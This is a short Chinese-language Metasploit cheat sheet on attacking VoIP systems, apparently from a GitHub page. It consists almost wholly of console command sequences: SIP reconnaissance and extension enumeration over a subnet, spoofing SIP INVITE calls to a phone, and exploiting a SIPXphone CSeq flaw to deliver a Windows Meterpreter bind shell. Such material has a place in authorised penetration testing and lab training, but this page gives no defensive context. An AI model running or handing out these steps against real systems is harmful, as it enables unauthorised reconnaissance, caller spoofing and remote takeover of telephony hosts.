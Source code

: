 # Metasploit渗透VOIP

## 对VOIP服务踩点 

```
use auxiliary/scanner/sip/options
show options
set RHOSTS 192.168.109.0/24
run
```

## 扫描VOIP服务

```
use auxiliary/scanner/sip/enumerator
show options
set MINEXT 3000
set MAXEXT 3005
set PADLEN 4
set RHOSTS 192.168.109.0/24
run
```

## 欺骗VOIP电话

```
use auxiliary/voip/sip_invite_spoof
set RHOSTS 192.168.109.141
set EXTENSION 4444
show options
run
```

## 渗透VOIP

```
use exploit/windows/sip/sipxphone_cseq
set RHOST 192.168.109.141
set payload windows/meterpreter/bind_tcp
set LHOST 192.168.109.137
show options
exploit
```

## 